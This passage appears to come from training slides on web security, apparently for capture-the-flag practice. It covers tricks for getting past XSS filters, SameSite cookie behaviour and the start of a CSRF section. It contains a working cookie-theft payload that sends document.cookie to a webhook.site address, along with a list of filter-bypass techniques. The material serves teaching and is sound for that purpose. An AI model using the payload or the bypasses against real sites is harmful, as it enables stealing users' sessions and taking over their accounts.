 {{% /section %}}

---

---

### Bonus: breaking mitigations
* Content stripped/blocked
    * different tag `<img onerror=...>` !!IMPORTANT!!
    * different event handler `<body onload=...>` !!IMPORTANT!!
    * embed dummy characters: `<SCRscriptIPT>`
    * use alternating case: `<ScRiPt>`
    
> [here's a couple more](https://github.com/payloadbox/xss-payload-list)


---

{{% section %}}

How do you solve these challenges?

> requestbin/webhooks

```javascript
<script>fetch("https://webhook.site/dba43b3c-1c05-4de5-b49f-376261fee98e?"+ document.cookie)</script>
```

---

> MY COOKIES!!! 

Oh well.

---
### Cookies (SameSite)
* *None*: {{% fragment %}}Cookies are always sent{{% /fragment %}}
* *Lax*: {{% fragment %}} (default) not sent cross-site{{% /fragment %}}
    * images/iframes {{% fragment %}}*`no`*{{% /fragment %}}
    * navigation (GET)    {{% fragment %}}*`yes`*{{% /fragment %}}
* *Strict*: {{% fragment %}}Cookies aren't sent{{% /fragment %}}

> read more [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)


{{% /section %}}
---

## CSRF
{{% section %}}

### What is it?
* Cross-site request forgery
* Trick a user into performing an unintended action
    * e.g. make them authorize a bank transaction
    * e.g. make them change their email/password
* *kinda similar to SSRF*

---